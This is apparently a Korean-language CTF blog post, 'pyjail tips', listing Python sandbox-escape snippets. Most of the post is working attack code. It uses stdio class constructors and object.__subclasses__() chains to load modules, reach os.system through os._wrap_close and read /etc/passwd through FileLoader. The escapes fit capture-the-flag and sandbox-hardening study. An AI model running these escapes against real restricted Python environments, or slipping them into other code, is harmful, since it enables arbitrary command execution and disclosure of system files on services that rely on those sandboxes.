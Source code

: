 ```yaml
---
layout: post
title: pyjail tips
author: hOwDayS
---
```




<h1>발견할 때 마다 추가 예정</h1>

<br>

<h2>python2</h2>

__read file__

```python
file_path = '/etc/passwd'
print(sys.stderr.__class__(file_path).read())
print(sys.stdout.__class__(file_path).read())
print(sys.stdin.__class__(file_path).read())
```

<br>

<h2>python3</h2>

__run import module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[69].load_module(module_name)
#<module 'os' (built-in)>
#''.__doc__.__class__.__base__.__subclasses__()[69] = <class '_frozen_importlib.BuiltinImporter'>
```

<br>

__run os module__

```python
os_function_name = 'system'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__[os_function_name]
#result = <built-in function system>
#''.__doc__.__class__.__base__.__subclasses__()[117] = <class 'os._wrap_close'>
```

<br>

__run sys.module__

```python
module_name = 'os'
''.__doc__.__class__.__base__.__subclasses__()[117].__init__.__globals__['sys'].modules[module_name]
#result = <module 'os' (built-in)>
#''.__doc__.__class__.__base__.__subclasses__()[117] = <class 'os._wrap_close'>
```

<br>

__read file__

```python
file_path = '/etc/passwd'
print(''.__doc__.__class__.__base__.__subclasses__()[79]('hOw','DayS').get_data(file_path))
#''.__doc__.__class__.__base__.__subclasses__()[79] = <class '_frozen_importlib_external.FileLoader'>
```

<br>